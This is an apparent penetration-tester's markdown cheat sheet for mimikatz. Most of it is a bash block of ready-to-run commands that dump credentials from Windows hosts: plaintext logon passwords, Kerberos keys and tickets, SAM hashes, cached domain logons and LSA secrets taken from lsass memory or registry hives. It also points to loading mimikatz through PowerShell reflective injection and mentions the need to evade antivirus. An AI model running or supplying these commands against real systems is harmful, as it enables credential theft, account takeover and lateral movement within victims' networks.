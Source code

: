 
#### mimikatz
+ local admin privilege. [mimikatz](https://github.com/gentilkiwi/mimikatz/releases),需考虑免杀
+ [mimikatz docs](https://github.com/gentilkiwi/mimikatz/wiki/module-~-sekurlsa)
+ [hacktricks mimikatz credentials](https://book.hacktricks.xyz/windows-hardening/stealing-credentials/credentials-mimikatz)
+ load mimikatz to powershell, avoid executing exe as a standalone app;[powershellmafia git](https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1)
+ more about credentials protection. hacktricks [mimikatz - credentials](https://book.hacktricks.xyz/windows-hardening/stealing-credentials/credentials-mimikatz)

```bash
# help, check the module and command
lsadump::

# Elevate Privileges to extract the credentials
## This should give am error if you are Admin, but if it does, check if the SeDebugPrivilege was removed from Admins
privilege::debug 
## grant to the highest level access
token::elevate

# One liner
mimikatz "log ms01-mimikatz.log" "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "lsadump::cache" "sekurlsa::ekeys" "exit"

## on-liner commond
mimikatz.exe "privilege::debug" "log logonpwd.log" "sekurlsa::logonpasswords full" exit

## engage SeDebugPrivlege
mimikatz # privilege::debug

# sekurlsa, extracts passwords, keys, pin codes, tickets from the memory of lsass (Local Security Authority Subsystem Service)
## logonpassords, Extract from lsass (memory)
sekurlsa::logonpasswords  

## get kerveros keys
sekurlsa::ekeys

## retrieves the kerberos tickets stored in the machine 
sekurlsa::tickets
sekurlsa::tickets /export

# lsadump module, Commands: sam, secrets, cache, lsa, trust, backupkeys, rpdata, dcsync, netsync
## get the lsa secrets，clear-text password, stored in registry HKLM\security\policy\secrets
## https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsa-secrets
token::elevate
lsadump::secrets
lsadump::secrets /system:c:\temp\system /security:c:\temp\security

## retrieve the cached domain logons
## not able to pth; but could to try crack, hashcat 2100
lsadump::cache

## fetch the local account credentials, from sam entries(registry or hive)
## get the SysKey to decrypt sam entries; Extract from SAM
lsadump::sam

## dump hash, will get the krbtgt hash on dc; Extract from lsass (service)
## /patch, patch lsass
## /inject, inject lsass to extract credentials
## /name, account name for target user
```